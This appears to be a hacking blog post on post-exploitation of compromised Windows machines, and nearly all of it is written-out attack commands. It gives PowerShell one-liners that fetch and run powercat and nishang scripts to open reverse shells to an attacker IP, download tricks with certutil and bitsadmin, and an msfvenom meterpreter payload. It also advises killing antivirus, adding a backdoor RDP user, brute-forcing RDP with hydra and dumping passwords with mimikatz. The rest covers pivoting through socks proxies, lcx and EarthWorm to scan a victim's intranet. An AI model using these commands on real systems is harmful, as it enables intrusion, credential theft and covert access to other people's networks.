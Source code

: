 ```yaml
---
title: After Getting The Shell
date: 2018-11-02 11:55:13
categories: Hacking
tags: [PowerShell, Metasploit]
description: It seems that it's getting more and more popular that everyone would like to scan the whole intranet when he takes down one of the other people's machines. So what to do next after getting the shell of a windows system? Some ideas about that. 
---
```


Here give two methods to trigger a windows reverse shell with PowerShell, remember to bypass the PowerShell security policy before you execute PowerShell command. (https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

For attacker:
```shell
nc -lvp 6666
```

For target:
```shell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
powercat -c x.x.x.x -p 6666 -e cmd
```
```shell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress x.x.x.x -port 6666
```

Sometimes the protection system on the server will block PowerShell from downloading anything, there are two tools to help you:
```shell
bitsadmin /transfer myDownloadJob /download /priority normal http://downloadsrv/10mb.zip c:\10mb.zip
```
```shell
certutil -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
```

Most of the time you will face three situations:

### You don't have administrator privilege, but there is no protection system.
If you're lucky enough, there's no anti-virus software in the system, you can trigger a reverse Metasploit shell in any method you like:
In an easy way:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe > a.exe
```
All you need to do is uploading the payload and execute it. When it comes to the question of how to upload the payload, the answer is that you must forward your local port to the public network with the help of FRP(https://github.com/fatedier/frp) which is a powerful tool, and you must have a VPS to achieve that. Even if you don't have a VPS, you can use ngrok to make it work.

### There is protection system in the server, but you have administrator privilege.
If you're not so lucky, maybe you should find some methods such as veil-evasion to obfuscate your payload. In worse situation, your payload which has been obfuscated was deleted by the antivirus as well. you'd better consider killing the process of the antivirus.

Sometimes it's not easy to kill the process of antivirus, you can just log into the system by the remote desktop protocol. The first step is to add a new user to the system:

```shell
net user Name Pass /add
```
Then you should add this user to the allowed rdp accounts from the commandline:

```shell
net localgroup "Remote Desktop Users" domain\user /add
```

If you want to add a non-domain user, it's easier:

```shell
net localgroup "Remote Desktop Users" user /add
```
But you cannot do crazy things with this account, but you can identify which protection system the server use and shutdown it or bypass it. It's not done yet if you want to execute some high-privilege command, privilege escalation could be taken into consideration.

Hydra is a powerful tool if you have a powerful wordlist:
```shell
hydra x.x.x.x rdp -L users.txt -P wordlist.txt -v
```
Mimikatz is also a good choice to dump the username and password from memory of the server. But most of the time mimikatz will be killed by the protection system.

### You don't have the administrator privilege, and the server has a protection system.

Shutdown your computer and go to sleep. Don't think about it.

-----------------------

But if I have the whole control of the server, here comes the point, how to scan the whole intranet witch your victim machine's in?

You can just use the socks5 module in meterpreter:

```shell
use anxiliary/server/socks5
set srvhost 127.0.0.1
set srvport 1080
```
Finally, just run:
```shell
run
```
If it's Linux in your local machine, you can use proxychains to set the socks5 proxy.
Getting proxychains installed:
```shell
apt install proxychains-ng
```
Add the following content in the /etc/proxychains.conf file:
```shell
socks5 127.0.0.1 1080
```
Then you can use socks proxy to scan the victim's intranet:
```shell
proxychains4 nmap -sT -Pn -open 192.168.100.1/22
```
The command above is from the Internet and I'm so confused about it. I have tried so many times to find out all the machines in the victim's intranet but I was always failed. I'm figuring out the proposal for this problem.

You can also use the msf built-in module to scan:
```shell
auxiliary/scanner/portscan
scanner/portscan/syn
scanner/portscan/tcp
```
If you need ports forwarding, it's also available in meterpreter:
```shell
meterpreter> portfwd add -l 55555 -r 192.168.1.1 -p 3306
```
Another popular tool is lcx.exe:
For attacker:
```shell
lcx -listen 2222 3333
```
For target:
```shell
lcx -slave x.x.x.x 2222 127.0.0.1 3389
```

Or you can use EarthWorm(http://rootkiter.com/EarthWorm/) to forward the victim machine's port to your VPS and use proxychains or proxifier in your local machine:
For your VPS:
```shell
./ew -s rcsocks -l 1080 -e 1024 
```
The command above means your VPS listens the port 1080, 1024  and waits for attacker connect to the port 1080, the victim connects to the port 1024.

For target:
```shell
ew.exe -s rssocks -d x.x.x.x -e 1024
```
The argument -d is the IP address of your VPS.

Finally, the attacker can access services in the intranet by setting socks5 proxy in his browser or use proxychains.




